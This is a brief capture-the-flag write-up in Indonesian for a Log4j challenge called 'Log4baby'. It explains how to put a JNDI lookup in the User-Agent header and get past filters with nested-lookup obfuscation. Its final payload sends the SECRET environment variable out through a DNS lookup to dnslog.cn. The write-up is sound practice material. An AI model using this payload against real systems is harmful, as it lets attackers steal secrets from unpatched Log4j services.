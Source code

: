 # Writeup Log4baby
Website tersebut melakukan logging terhadap *browser* yang digunakan oleh user. Sehingga, kita dapat melakukan GET request dengan mengubah header "User-Agent", dengan payload yaitu lookup JNDI. Terdapat beberapa filter, tetapi kita dapat mem-bypassnya dengan lookup kondisional: `${${::-j}ndi:${::-l}dap:something`. 

![img](https://cdn.discordapp.com/attachments/815844122673938453/997278435200225280/unknown.png)

Lalu, tinggal leak secretnya. Kita dapat menggunakan `${env:SECRET}`, lalu menggunakan dns logger untuk mendapatkan daftar DNS lookup yang dilakukan, seperti melalui dnslog.cn. Sehingga, payload menjadi: `${${::-j}ndi:${::-l}dap://${env:SECRET}.<token>.dnslog.cn/`.